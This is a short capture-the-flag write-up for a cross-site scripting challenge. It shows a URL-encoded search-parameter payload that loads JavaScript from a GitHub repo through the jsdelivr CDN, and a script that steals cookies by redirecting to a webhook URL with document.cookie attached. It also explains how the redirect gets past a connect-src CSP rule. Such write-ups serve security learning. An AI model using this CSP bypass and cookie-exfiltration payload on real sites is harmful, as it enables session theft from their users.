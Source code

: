 ## Solution

Using jsdelivr to host custom github repo that executes javascripts

```
http://challenge_url:5252/search?q=%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/j3seer/test@main/XSS.js%22
``` 

payload in xss.js

```javascript

document.location="http://webhook_url/?c="+document.cookie

```

Note that ``fetch()`` won't work because of connect-src in the CSP, it disables any sort of requests cross domain and since document.location is just a redirection, it works!
